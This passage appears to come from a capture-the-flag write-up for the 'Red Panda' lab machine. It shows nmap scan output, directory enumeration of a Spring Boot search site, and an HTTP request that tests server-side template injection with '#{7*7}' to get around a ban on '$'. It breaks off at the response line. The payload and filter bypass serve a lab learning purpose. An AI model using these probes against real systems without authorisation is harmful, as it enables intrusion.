 ```shell
|     <span></span>
|     <span></span>
|     </div>
|     <div class='face'>
|     <div class='eye
|   HTTPOptions: 
|     HTTP/1.1 200 
|     Allow: GET,HEAD,OPTIONS
|     Content-Length: 0
|     Date: Wed, 03 Aug 2022 09:02:43 GMT
|     Connection: close
|   RTSPRequest: 
|     HTTP/1.1 400 
|     Content-Type: text/html;charset=utf-8
|     Content-Language: en
|     Content-Length: 435
|     Date: Wed, 03 Aug 2022 09:02:43 GMT
|     Connection: close
|     <!doctype html><html lang="en"><head><title>HTTP Status 400 
|     Request</title><style type="text/css">body {font-family:Tahoma,Arial,sans-serif;} h1, h2, h3, b {color:white;background-color:#525D76;} h1 {font-size:22px;} h2 {font-size:16px;} h3 {font-size:14px;} p {font-size:12px;} a {color:black;} .line {height:1px;background-color:#525D76;border:none;}</style></head><body><h1>HTTP Status 400 
|_    Request</h1></body></html>
|_http-title: Red Panda Search | Made with Spring Boot
|_http-open-proxy: Proxy might be redirecting requests
```
As we can see there are only two ports open: 22 and 8080.  
As we can see from the banners this application is running over Spring Boot, so we can assume that this is a Java application.  
As we open the site we can see a search engine like page.  
Running directory enumeration shows the following:  
```
/search               (Status: 405) [Size: 117]
/stats                (Status: 200) [Size: 987]
/error                (Status: 500) [Size: 86]
/export.xml           (Status: 200) [Size: 38]
```
The same can be discovered by simply poking around on the site.  
Now we can try to `wfuzz` all the pages for different vulnerabilities but with no luck.
Now, as we did for [Doctor](Doctor.md) and [Late](Late.md), we can test for SSTI if we test for [SSTI for Java](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection).
Now, as we can notice `$` is a banned charachter, so we can test SSTI using `#` or `*` instead:  
```http
POST /search HTTP/1.1
Host: 10.10.11.170:8080
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 11
Origin: http://10.10.11.170:8080
Connection: close
Referer: http://10.10.11.170:8080/stats?author=woodenk
Upgrade-Insecure-Requests: 1
Sec-GPC: 1

name=#{7*7}
```
and, as a response we get:  
```http
HTTP/1.1 200 
```